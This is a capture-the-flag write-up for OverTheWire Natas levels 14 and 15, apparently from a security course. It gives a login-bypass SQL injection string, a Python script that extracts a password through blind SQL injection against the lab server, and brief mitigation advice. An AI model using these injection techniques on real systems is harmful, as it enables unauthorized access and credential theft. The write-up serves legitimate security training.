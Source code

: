 ### Natas 14

#### Credentials
Password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

#### How you passed the challenge
1) I looked at the source code and noticed that it was directed putting in user input into the query
2) I injected the following sql query to login and get the password
```sql
" OR ""=" 
```

#### What sins are evidenced in this challenge
Sin #1, Sin #12

#### How could those sins be mitigated
Don't trust user input
Use parameterized queries
Don't expose authentication systems


---
### Natas 15

#### Credentials
Password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

#### How you passed the challenge
1) After looking at the source code and noticing that there was no direct way to find the password, I managed to figure out that a user will be returned in the query is injected with a valid user and a password comparison using SQL's ```LIKE``` operator
2) I wrote a script to brute-force the password by using Python's ```request``` library
3) When the password I was getting wasn't working, I realized that all the alpha characters in my generated password were lowercase, so I found that SQL's ```BINARY``` operator could be used to force case-sensitive comparisons
```python
import requests

alnums = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
passwd = ""
auth = ('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J')

for i in range(len(auth[1])):
    for char in alnums:
        query = f'natas16" AND password LIKE BINARY "{passwd}{char}%'
        # print(query)
        req = requests.get(f'http://natas15.natas.labs.overthewire.org/index.php?username={query}',
                           auth=auth
                           )
        if "This user exists" in req.text:
            passwd += char
            break

print(passwd)
```
